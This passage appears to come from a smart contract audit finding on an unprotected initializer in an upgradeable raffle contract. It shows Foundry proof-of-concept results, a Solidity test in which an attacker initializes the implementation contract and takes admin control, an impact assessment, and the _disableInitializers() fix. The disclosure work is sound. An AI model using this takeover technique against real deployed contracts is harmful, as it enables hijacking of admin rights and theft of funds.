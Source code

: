 ### PoC Results
```
[PASS] test_1_InitializeImplementationContract() (gas: 314,462)
[PASS] test_2_ImplementationVsProxyControl() (gas: 444,487)
[PASS] test_3_SecureImplementationPattern() (gas: 2,465,259)
[PASS] test_4_AttackerFinancialImpact() (gas: 2,820,812)

Suite result: ok. 4 passed; 0 failed; 0 skipped

=== VULNERABILITY CONFIRMED ===
✓ Attacker can initialize unprotected implementation contract
✓ Attacker gains full admin control over implementation
✓ Split control: Proxy (legitimate admin) vs Implementation (attacker)
✓ CRITICAL: 1 ETH at immediate risk of theft via upgrade mechanism
✓ Fix with _disableInitializers() prevents the attack
```

### Split Control Demonstration
```solidity
function test_ImplementationVsProxyControl() public {
    // Proxy remains secure (controlled by legitimate admin)
    assertTrue(proxy.hasRole(proxy.ADMIN_ROLE(), ADMIN));
    assertFalse(proxy.hasRole(proxy.ADMIN_ROLE(), attacker));
    
    // But implementation gets compromised
    vm.prank(attacker);
    implementation.initialize(address(spinStub), SUPRA_ORACLE);
    
    // Attacker can perform admin actions on implementation
    vm.prank(attacker);
    implementation.addPrize("Malicious Prize", "Attacker's prize", 999999, 100);
    
    // Split control: Proxy secure (0 prizes) vs Implementation compromised (1 prize)
    assertEq(proxy.getPrizeIds().length, 0);
    assertEq(implementation.getPrizeIds().length, 1);
}
```

## Impact Assessment

### Technical Impact
- **Implementation Control**: Attacker gains full admin privileges on implementation contract
- **State Manipulation**: Can add malicious prizes, modify rewards, control access
- **Split Authority**: Dangerous scenario where proxy and implementation have different admins
- **User Confusion**: Users might interact with compromised implementation directly

### Business Impact
- **Trust Breakdown**: Users lose confidence in contract security
- **Operational Risk**: Two competing admin authorities create operational chaos
- **Reputation Damage**: Security vulnerability in core raffle functionality
